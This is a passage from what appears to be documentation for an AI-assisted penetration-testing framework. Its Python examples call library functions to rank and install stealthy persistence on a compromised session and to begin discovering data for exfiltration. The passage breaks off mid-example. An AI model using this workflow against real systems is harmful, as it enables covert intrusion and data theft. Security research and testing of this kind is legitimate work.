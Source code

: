 Use AI to select optimal persistence mechanisms based on target environment.

```python
# Intelligent persistence establishment
from metasploit_ai.persistence import PersistenceManager
from metasploit_ai.ai import PersistenceOptimizer

persistence_manager = PersistenceManager()
persistence_optimizer = PersistenceOptimizer()

# Analyze target for persistence opportunities
persistence_analysis = persistence_optimizer.analyze_target(session_id)

print("Persistence Analysis:")
print(f"  OS Type: {persistence_analysis['os_type']}")
print(f"  User Privileges: {persistence_analysis['user_privileges']}")
print(f"  Security Controls: {persistence_analysis['security_controls']}")
print(f"  Monitoring Level: {persistence_analysis['monitoring_level']}")

# Get recommended persistence methods
recommendations = persistence_optimizer.recommend_methods(persistence_analysis)

print("\nRecommended Persistence Methods:")
for method in recommendations:
    print(f"\n{method['name']}:")
    print(f"  Stealth Score: {method['stealth_score']:.2f}")
    print(f"  Reliability: {method['reliability']:.2f}")
    print(f"  Survivability: {method['survivability']:.2f}")
    print(f"  Implementation: {method['implementation_complexity']}")

# Implement top persistence method
top_method = recommendations[0]
persistence_result = persistence_manager.implement_persistence(
    session_id, 
    top_method
)

if persistence_result['success']:
    print(f"\nPersistence established: {top_method['name']}")
    print(f"Callback method: {persistence_result['callback_method']}")
    print(f"Trigger: {persistence_result['trigger']}")
else:
    print(f"\nPersistence failed: {persistence_result['error']}")
```

## Data Exfiltration Techniques

### AI-Optimized Data Identification and Exfiltration

Use AI to identify valuable data and optimize exfiltration methods.

```python
# Intelligent data exfiltration
from metasploit_ai.exfiltration import DataExfiltrator
from metasploit_ai.ai import DataClassifier

exfiltrator = DataExfiltrator()
data_classifier = DataClassifier()

# Discover and classify data
data_discovery = exfiltrator.discover_data(session_id)

print("Data Discovery Results:")
for location in data_discovery['locations']:
    print(f"\nLocation: {location['path']}")
```